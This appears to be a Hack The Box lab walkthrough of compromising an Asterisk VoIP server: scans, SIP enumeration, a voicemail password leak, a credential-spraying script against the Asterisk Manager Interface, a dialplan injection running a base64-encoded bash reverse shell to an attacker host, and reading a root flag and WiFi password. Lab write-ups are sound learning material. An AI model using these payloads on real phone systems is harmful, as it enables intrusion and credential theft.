




Strangely, I do not see any open service in the TCP stack:

```bash
 rustscan -a 10.10.110.22 -- -A -T4
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
RustScan: allowing you to send UDP packets into the void 1200x faster than NMAP

[~] The config file is expected to be at "/home/user/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
[!] Looks like I didn't find any open ports for 10.10.110.22. This is usually caused by a high batch size.

```

But the UDP services shows that this might be the Asterisks server?

```bash
┌──(user㉿kali-almi)-[~/Downloads/Wanderer]
└─$ nmap -F -sU 10.10.110.22                                    
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-07 12:16 +0200
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 29.50% done; ETC: 12:16 (0:00:24 remaining)
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 30.88% done; ETC: 12:16 (0:00:25 remaining)
Nmap scan report for 10.10.110.22
Host is up (0.023s latency).
Not shown: 99 closed udp ports (port-unreach)
PORT     STATE SERVICE
5060/udp open  sip

Nmap done: 1 IP address (1 host up) scanned in 76.22 seconds
                                                               
```

# SIP

With the credentials obtained by the web page I have actually 2 credentials to test and a list of valid users.  But before I will do some enumeration in asterisk and check what I can see:

```bash
└─$ svmap 10.10.110.0/24 -p 5060-5070 [--fp]
ERROR:getranges:Could not resolve [--fp]
+-------------------+----------------------+
| SIP Device        | User Agent           |
+===================+======================+
| 10.10.110.22:5060 | Asterisk PBX 20.12.0 |
+-------------------+----------------------+

```

Now here I am coming back from the session as Izo user on Mobile01 machine where I was able to identify that the current user was running Zoiper5(a VOIP software):



I was able to archive and import to my machine the configuration allowing me to bypass the login authentication on my machine:



Now from the MongoDB i was able to export the following extensions that should be available on the Asterisk:

```json
mobile> db.phones.find()
[
  {
    _id: ObjectId('67ccb4f96d0a4374126b140b'),
    name: 'benny',
    extension: '1000',
    description: 'IT Admin',
    id: 'a64ee717-a0dd-4426-88e5-81b8a1b816c5'
  },
  {
    _id: ObjectId('67ccb4fda36b39ee366b140b'),
    name: 'gizmo',
    extension: '1001',
    description: 'Asterisk Admin',
    id: '9e0db500-d01c-4bff-90f8-84e0617b8a32'
  },
  {
    _id: ObjectId('67ccb5003f29fa2c5c6b140b'),
    name: 'izo',
    extension: '1002',
    description: 'Remote User',
    id: '20a01776-6277-4882-8070-2576f9121f52'
  },
  {
    _id: ObjectId('67ccb503e53f4c6d736b140b'),
    name: 'katja',
    extension: '1003',
    description: 'Web Admin',
    id: '8d43e941-be7c-4470-ad40-05b989feb3ee'
  },
  {
    _id: ObjectId('67ccb506a9eb16114b6b140b'),
    name: 'house',
    extension: '1337',
    description: 'CEO',
    id: '0705e117-9358-4432-952d-7d8e3bf90653'
  },
  {
    _id: ObjectId('67ccb5099987ac41356b140b'),
    name: 'Voicemail',
    extension: '6500',
    description: '',
    id: '88c97c87-8555-4f88-8cb1-11f8974d84c6'
  }
]
```

Now all the extensions are not answering except the 6500(VoiceMail) where the Commedian Mailbox is asking for email and password:  


And apparently it is just enough to use the extensions from the dB followed by the same password and the tool will guide you. Now something it really helped me is to know that the dial 5 is actually for listening messages sort of an "ok or enter":


And for the CEO(ext. 1337) there was a message telling me that the password has been resetted to "Lucky38"!

The whole flow goes like this, start by dialing the Voice mail at 6500:

- Type 1337 when asked for the mailbox
- Type 1337 when asked for the password
- Type 1 to read the new message
- Now wait, or type 5 to repeat the message.

Now with that password I can go back to the Mobile-01 machine and finish the job.

# Back on Track

While I was connected on the Laptop01 I discovered the possibility to login to a ESSID "VOIP" and while using one of the old password I was able to footprint where I can see the management interface of the Asterisk server:

```bash
PORT     STATE SERVICE  REASON         VERSION
22/tcp   open  ssh      syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 45:42:d0:1e:a4:b6:7c:b3:b7:1b:fd:54:39:7e:c4:90 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDbD7x9bObhuG+FwChyhXHvqL8XamOXoKJyi8trhYVi3OoT+ygxOS1UC8eQwxrwb55kcXqw45n1JIVRxvbnizMA=
|   256 1f:14:9a:14:ba:e6:6b:eb:ff:e4:c0:8f:18:78:d4:07 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPKgyfYbcyJPkrKeL4kb896ISg2wBkPJ5OJwujVLNYK7
5038/tcp open  asterisk syn-ack ttl 64 Asterisk Call Manager 9.0.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Dell PowerConnect 3348 switch (86%), Sony Ericsson Hazel (J10, J20) or Elm mobile phone (85%), Sony Ericsson W705 or W995 Walkman mobile phone (85%), IBM OS/390 V2 (85%), HP OpenVMS 7.3 - 8.3 (85%), IBM z/OS 1.12 (85%), IBM z/OS 1.11 (85%), IBM z/OS 1.13 (85%), IBM z/OS 2.1 (85%), Blue Coat SG210 proxy server (SGOS 5.2.3.3 - 5.2.3.9) (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=4/15%OT=22%CT=%CU=%PV=Y%G=N%TM=69DF9700%P=x86_64-pc-linux-gnu)
SEQ(SP=101%GCD=1%ISR=10D%TI=I%CI=I%II=RI%TS=A)
SEQ(SP=105%GCD=1%ISR=108%TI=I%CI=RD%II=I%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

```

Now this is a huge hint as basically now I can inject malicious extension and gain rce! Now I asked AI to make a quick script that tests all the passwords:

```bash
─$ cat asterisk_bruter.sh 
#!/bin/bash
# Define your credentials in "user:pass" format
creds=(
  "katja:Boneyard87!"
  "api:apiSecretPw"
  "mongo:SuperS3cretPass"
  "gizmo:JunktownKing!"
  "izo:NukaCola2077!"
  "wanderer:SynthLivesMatter"
  "benny:BootRiders4Life!"
  "house:Lucky38"
  "ghoul:Vaultboy4Prez!"
)

for c in "${creds[@]}"; do
  u="${c%%:*}"
  p="${c#*:}"
  echo "Testing $u:$p..."
  # Use single quotes around the echo string to avoid '!' issues
  echo -e "Action: Login\r\nUsername: $u\r\nSecret: $p\r\n\r\n" | nc -w 3 192.168.100.5 5038 | grep -E "Response|Message"
  echo "----------------"
done

```

And from the APK I remeber seeing that GIZMO was the admin on Asterisk and it was actually true:


```bash
─$ ./asterisk_bruter.sh  
Testing katja:Boneyard87!...
Response: Error
Message: Authentication failed
----------------
Testing api:apiSecretPw...
Response: Error
Message: Authentication failed
----------------
Testing mongo:SuperS3cretPass...
Response: Error
Message: Authentication failed
----------------
Testing gizmo:JunktownKing!...
Response: Success
Message: Authentication accepted
Response: Error
Message: Missing action in request
----------------
Testing izo:NukaCola2077!...
Response: Error
Message: Authentication failed
----------------
Testing wanderer:SynthLivesMatter...
Response: Error
Message: Authentication failed
----------------
Testing benny:BootRiders4Life!...
Response: Error
Message: Authentication failed
----------------
Testing house:Lucky38...
Response: Error
Message: Authentication failed
----------------
Testing ghoul:Vaultboy4Prez!...
Response: Error
Message: Authentication failed
----------------

```

And now it works:

```bash
└─$ nc 192.168.100.5 5038                                                                       
Asterisk Call Manager/9.0.0
Action: login
Username: gizmo
Secret: JunktownKing!

Response: Success
Message: Authentication accepted

Event: FullyBooted
Privilege: system,all
Uptime: 43184
LastReload: 43184
Status: Fully Booted

Event: SuccessfulAuth
Privilege: security,all
EventTV: 2026-04-15T14:16:37.304+0000
Severity: Informational
Service: AMI
EventVersion: 1
AccountID: gizmo
SessionID: 0x7fdde0002dc0
LocalAddress: IPV4/TCP/0.0.0.0/5038
RemoteAddress: IPV4/TCP/192.168.100.93/55364
UsingPassword: 0
SessionTV: 2026-04-15T14:16:37.304+0000

```

This allows to get the config:

```bash
Action: GetConfig
Filename: pjsip.conf

Response: Success
Category-000000: transport-udp
Line-000000-000000: type=transport
Line-000000-000001: protocol=udp
Line-000000-000002: bind=0.0.0.0
Line-000000-000003: external_media_address=10.10.110.22
Line-000000-000004: external_signaling_address=10.10.110.22
Category-000001: Benny-softphone
Line-000001-000000: type=endpoint
Line-000001-000001: context=phones
Line-000001-000002: disallow=all
Line-000001-000003: allow=ulaw
Line-000001-000004: auth=Benny-auth
Line-000001-000005: aors=Benny-softphone
Line-000001-000006: direct_media=no
Line-000001-000007: rewrite_contact=yes
Line-000001-000008: rtp_symmetric=yes
Category-000002: Benny-auth
Line-000002-000000: type=auth
Line-000002-000001: auth_type=userpass
Line-000002-000002: username=Benny-softphone
Line-000002-000003: password=Secret123
Category-000003: Benny-softphone
Line-000003-000000: type=aor
Line-000003-000001: max_contacts=100
Category-000004: Gizmo-softphone
Line-000004-000000: type=endpoint
Line-000004-000001: context=phones
Line-000004-000002: disallow=all
Line-000004-000003: allow=ulaw
Line-000004-000004: auth=Gizmo-auth
Line-000004-000005: aors=Gizmo-softphone
Line-000004-000006: direct_media=no
Line-000004-000007: rewrite_contact=yes
Line-000004-000008: rtp_symmetric=yes
Category-000005: Gizmo-auth
Line-000005-000000: type=auth
Line-000005-000001: auth_type=userpass
Line-000005-000002: username=Gizmo-softphone
Line-000005-000003: password=Secret123
Category-000006: Gizmo-softphone
Line-000006-000000: type=aor
Line-000006-000001: max_contacts=100
Category-000007: izo-softphone
Line-000007-000000: type=endpoint
Line-000007-000001: context=phones
Line-000007-000002: disallow=all
Line-000007-000003: allow=ulaw
Line-000007-000004: auth=izo-auth
Line-000007-000005: aors=izo-softphone
Line-000007-000006: direct_media=no
Line-000007-000007: rewrite_contact=yes
Line-000007-000008: rtp_symmetric=yes
Category-000008: izo-auth
Line-000008-000000: type=auth
Line-000008-000001: auth_type=userpass
Line-000008-000002: username=izo-softphone
Line-000008-000003: password=Secret123
Category-000009: izo-softphone
Line-000009-000000: type=aor
Line-000009-000001: max_contacts=100
Category-000010: Katja-softphone
Line-000010-000000: type=endpoint
Line-000010-000001: context=phones
Line-000010-000002: disallow=all
Line-000010-000003: allow=ulaw
Line-000010-000004: auth=Katja-auth
Line-000010-000005: aors=Katja-softphone
Line-000010-000006: direct_media=no
Line-000010-000007: rewrite_contact=yes
Line-000010-000008: rtp_symmetric=yes
Category-000011: Katja-auth
Line-000011-000000: type=auth
Line-000011-000001: auth_type=userpass
Line-000011-000002: username=Katja-softphone
Line-000011-000003: password=Secret123
Category-000012: Katja-softphone
Line-000012-000000: type=aor
Line-000012-000001: max_contacts=100
Category-000013: House-softphone
Line-000013-000000: type=endpoint
Line-000013-000001: context=phones
Line-000013-000002: disallow=all
Line-000013-000003: allow=ulaw
Line-000013-000004: auth=House-auth
Line-000013-000005: aors=House-softphone
Line-000013-000006: direct_media=no
Line-000013-000007: rewrite_contact=yes
Line-000013-000008: rtp_symmetric=yes
Category-000014: House-auth
Line-000014-000000: type=auth
Line-000014-000001: auth_type=userpass
Line-000014-000002: username=House-softphone
Line-000014-000003: password=Secret123
Category-000015: House-softphone
Line-000015-000000: type=aor
Line-000015-000001: max_contacts=100

```

Without further do let's inject a malicious RCE from an extension now I need to check what extension should I rewrite?

```bash
Event: ListDialplan
Context: phones
Extension: 1001
Priority: 2
Application: Dial
AppData: SIP/Gizmo
Registrar: pbx_config

Event: ListDialplan
Context: phones
Extension: 1001
Priority: 3
Application: VoiceMail
AppData: 1001@vm,u
Registrar: pbx_config

Event: ListDialplan
Context: phones
Extension: 1001
Priority: 4
Application: Hangup
AppData: 
Registrar: pbx_config

Event: ListDialplan
Context: phones
Extension: 1002
Priority: 1
Application: NoOp
AppData: First
Registrar: pbx_config

Event: ListDialplan
Context: phones
Extension: 1002
Priority: 2
Application: Dial
AppData: SIP/izo

```

Now I replaced the content of the IZO extension(1002):

```bash
Action: Command
Command: dialplan add extension 1002,1,system(echo\ L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjUvNDQ0NCAwPiYx|base64\ -d|bash), into phones replace

Response: Success
Message: Command output follows
Output: Extension 1002@phones (1) replace by '1002,1,system(echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjUvNDQ0NCAwPiYx|base64 -d|bash)'

```

And now when i call it:  


I see a rce:

```bash
└─$ nc -lnvp 4444        
listening on [any] 4444 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.110.3] 24885
bash: cannot set terminal process group (207): Inappropriate ioctl for device
bash: no job control in this shell
root@asterisk:/# id
id
uid=0(root) gid=999(asterisk) groups=999(asterisk)
root@asterisk:/# hostname
hostname
asterisk
root@asterisk:/# 


```

And I have another flag:

```bash
rwx------  4 root root 4096 Mar 27  2025 ./
drwxr-xr-x 17 root root 4096 Apr 15 02:14 ../
lrwxrwxrwx  1 root root    9 Mar 19  2025 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
-r--r--r--  1 root root   37 Mar 13  2025 flag.txt
-rw-------  1 root root   20 Mar 27  2025 .lesshst
lrwxrwxrwx  1 root root    9 Mar 19  2025 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwx------  2 root root 4096 Mar 13  2025 .ssh/
drwxr-xr-x  3 root root 4096 Mar 13  2025 .subversion/
-rw-r--r--  1 root root  180 Mar 13  2025 .wget-hsts
root@asterisk:/root# cat flag.txt
cat flag.txt
HTB{449f2c078737cf0b1af2105a3f64956f}

```

# Post Exploitation

Now I need to check if I can find more stuff that can lead me further intothe attack chain, and immediately I don't see any other user than root. Here I can see the SSID of VOIP and its passwod(BTW i already know that):

```bash
oot@asterisk:/etc# cat wpa_supplicant.conf
cat wpa_supplicant.conf
ctrl_interface=/var/run/wpa_supplicant
network={
    ssid="VOIP"
    psk="SynthLivesMatter"
    proto=WPA2
    pairwise=CCMP
    key_mgmt=WPA-PSK
}
```

Now there is this hidden folder named "subversion" which is an alternative to git:

```bash
root@asterisk:/root# ll
ll
total 36
drwx------  4 root root 4096 Mar 27  2025 ./
drwxr-xr-x 17 root root 4096 Apr 16 02:14 ../
lrwxrwxrwx  1 root root    9 Mar 19  2025 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
-r--r--r--  1 root root   37 Mar 13  2025 flag.txt
-rw-------  1 root root   20 Mar 27  2025 .lesshst
lrwxrwxrwx  1 root root    9 Mar 19  2025 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwx------  2 root root 4096 Mar 13  2025 .ssh/
drwxr-xr-x  3 root root 4096 Mar 13  2025 .subversion/
-rw-r--r--  1 root root  180 Mar 13  2025 .wget-hsts
root@asterisk:/root# 

```

Now this folder of SVN is totally empty and since the default port is the *TCP/3690* the service most definitely is not running locally.

```bash
root@asterisk:/# ss -tulpn
ss -tulpn
Netid State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess                            
udp   UNCONN 0      0            0.0.0.0:53327      0.0.0.0:*    users:(("asterisk",pid=207,fd=8)) 
udp   UNCONN 0      0            0.0.0.0:4520       0.0.0.0:*    users:(("asterisk",pid=207,fd=22))
udp   UNCONN 0      0            0.0.0.0:4569       0.0.0.0:*    users:(("asterisk",pid=207,fd=17))
udp   UNCONN 0      0            0.0.0.0:5000       0.0.0.0:*    users:(("asterisk",pid=207,fd=20))
udp   UNCONN 0      0            0.0.0.0:5060       0.0.0.0:*    users:(("asterisk",pid=207,fd=10))
udp   UNCONN 0      0                  *:15920            *:*    users:(("asterisk",pid=207,fd=21))
udp   UNCONN 0      0                  *:15921            *:*    users:(("asterisk",pid=207,fd=29))
udp   UNCONN 0      0               [::]:43367         [::]:*    users:(("asterisk",pid=207,fd=9)) 
tcp   LISTEN 0      128          0.0.0.0:22         0.0.0.0:*    users:(("sshd",pid=182,fd=3))     
tcp   LISTEN 0      10           0.0.0.0:5038       0.0.0.0:*    users:(("asterisk",pid=207,fd=6)) 
tcp   LISTEN 0      128             [::]:22            [::]:*    users:(("sshd",pid=182,fd=4))     
root@asterisk:/# 


```

Now I will execute the Linpeas just in case and check what I can see so far.